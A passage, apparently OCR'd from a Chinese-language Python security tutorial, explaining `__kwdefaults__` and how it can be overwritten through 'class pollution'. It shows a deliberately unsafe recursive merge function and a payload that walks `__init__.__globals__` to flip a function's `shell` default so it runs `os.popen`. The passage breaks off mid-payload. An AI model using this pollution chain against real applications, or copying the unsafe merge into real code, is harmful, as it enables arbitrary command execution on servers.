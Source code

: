 ```python
#(2,)
```

稍有问题的是该属性值要求为元组类型，但通常的JSON格式就没有元组这一数据结构，需要环境有合适的解析输入的方式。

`__kwdefaults__`以字典的形式按从左到右的顺序收录了函数键值形参的默认值

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__kwdefaults__)
#None
print(func_b.__kwdefaults__)
#None
print(func_c.__kwdefaults__)
#{'var_3': 3}
print(func_d.__kwdefaults__)
#{'var_3': 3}
```

```python
def evilFunc(arg_1, *, shell=False):
    if not shell:
        print(arg_1)
    else:
        print(__import__("os").popen(arg_1).read())


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


instance = cls()
payload = {
    "__init__": {
        "__globals__": {
            "evilFunc": {
                "__kwdefaults__": {
                    "shell": True
                }
            }
```